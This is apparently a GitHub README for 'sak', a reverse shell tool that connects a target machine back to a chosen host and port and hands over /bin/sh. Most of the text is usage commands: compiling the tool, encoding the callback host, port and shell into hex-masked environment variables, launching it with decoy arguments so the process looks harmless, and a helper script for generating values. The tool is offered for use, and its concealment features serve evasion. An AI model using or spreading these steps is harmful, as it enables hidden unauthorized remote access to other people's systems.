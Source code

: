 # sak

*A reverse shell "Swiss Army Knife"*

## Demo

![sak-demo](https://user-images.githubusercontent.com/26688050/202610772-ff4b6b58-4b4e-48b9-b85d-496d257e47fc.gif)


## Compile Source

Clone this repo and compile with `gcc`
  - *you can change values defined in `sak.c` for custom env vars*

```bash
gcc sak.c -o sak -static
```

## Generate Environment

The `SAKTST` env var is a "toggle" to help generate masked values

Set `SAKTST=123` before running with args `./sak [ip] [port] [mask] [exec]`

```bash
SAKTST=123 ./sak 127.0.0.1 1337 hashmaskhere /bin/sh
# --------------------------------
# ENV: 127.0.0.1:1337
# --------------------------------
# SAKHSH=hashmaskhere
# SAKHST=595344465D4F434559
# SAKPRT=5952405F
# SAKEXC=47031A0642121B
```

Use the output as env vars for calling `./sak` again
  - *without `SAKTST=123`, cli args to `sak` are ignored*

## Connect Target

Either `export` all variables before, or prefix command to connect

```bash
export SAKHSH=hashmaskhere
export SAKHST=595344465D4F434559
export SAKPRT=5952405F
export SAKEXC=47031A0642121B
./sak --anthing goes=here
```

**OR ONE LINER**

```bash
SAKHSH=hashmaskhere SAKHST=595344465D4F434559 SAKPRT=5952405F SAKEXC=47031A0642121B ./sak --anthing goes=here
```

### Debug Mode

The `SAKDBG` env var is a toggle to display unmasked values on connecting

Set `SAKDBG=69` before running `./sak`

```bash
export SAKHSH=hashmaskhere
export SAKHST=595344465D4F434559
export SAKPRT=5952405F
export SAKEXC=47031A0642121B
export SAKDBG=69 # Enable debug output

./sak --fake-args

# CONN: 127.0.0.1:1337 ...
# HOST: [595344465D4F434559] => 127.0.0.1
# PORT: [5952405F] => 1337
# EXEC: [47031A0642121B] => /bin/sh

```

## Helper Script

Provided auto-hash generator script

```bash
# Set target ip
export SAKIP=127.0.0.1
# Generate values for given port with random hash
./gen.sh 1337
# Also works with multiple ports
./gen.sh 1337 4444 9999
```

## Error Handloling

Missing env/hash

```bash
./sak
# Epic fail
```

Invalid hash/port values

```bash
SAKHSH=Wr0nG SAKHST=595344465D4F434559 SAKPRT=5952405F SAKEXC=47031A0642121B ./sak --anthing goes=here

# Out of range
```
